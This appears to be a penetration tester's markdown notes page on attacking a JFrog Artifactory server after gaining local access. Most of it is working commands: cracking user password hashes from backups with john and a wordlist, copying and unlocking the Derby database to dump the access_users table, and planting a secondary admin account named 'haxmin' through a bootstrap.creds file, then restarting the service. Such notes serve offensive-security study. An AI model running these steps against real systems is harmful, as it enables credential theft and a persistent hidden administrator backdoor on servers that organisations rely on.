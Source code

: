 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: test
---
```

<span style="font-size: 35px; color:red"><b>Artifactory</b></span>

<span style="color:red">Binary Repository Manager</span> that stores software packages and other binaries installed in <span style="color:red">/opt/jfrog</span>. If it's running, it will run as webserver on port 8082 locally or port 8081 remotely.
To prevents developers from getting untrusted or unstable binaries directly from the Internet.

To Start:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To see whether an Artifactory repo is running on the system:
```shell
ps aux | grep artifactory
```

Login page at <span style="color:red">http://<domain>:8082/</span>.


<span style="font-size: 25px; color:white"><b>Credentials</b></span>
The open-source version of Artifactory creates database backups for the user accounts at /<Artifactory_Folder>/var/backup/access in JSON format.
The password is in bcrypt format and can be cracked as follows:
```shell
sudo john derbyhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<span style="font-size: 25px; color:white"><b>Compromising Artifactory Database</b></span>
If there are no backup files available, we can access the database itself or attempt to copy it and extract the hashes manually.
Copy the database to a temporary location and unlock it:
```shell
sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
sudo chmod 755 /tmp/hackeddb/derby
sudo rm /tmp/hackeddb/derby/*.lck
```

If it's using Apache's Derby, install Apache's derby tools. <span style="color:red">ij</span> tool allows you to handle the database and query it:
```shell
sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
```
From there:
```shell
select * from access_users;
```
and you'll see the passwords.

<span style="font-size: 25px; color:white"><b>Adding a Secondary Artifactory Admin Account</b></span>
This method requires write access to the /opt/jfrog/artifactory/var/etc/access folder and the ability to change permissions on the newly-created file, which usually requires _root_ or _sudo_ access.
In there, create a `bootstrap.creds` like so:
```shell
haxmin@*=haxhaxhax
```
creating a new user <span style="color:red">haxmin</span> with password <span style="color:red">haxhaxhax</span>. Set permissions to 600:
```shell
sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```
Now reboot the process:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To check if everything went smooth:
```shell
sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
```
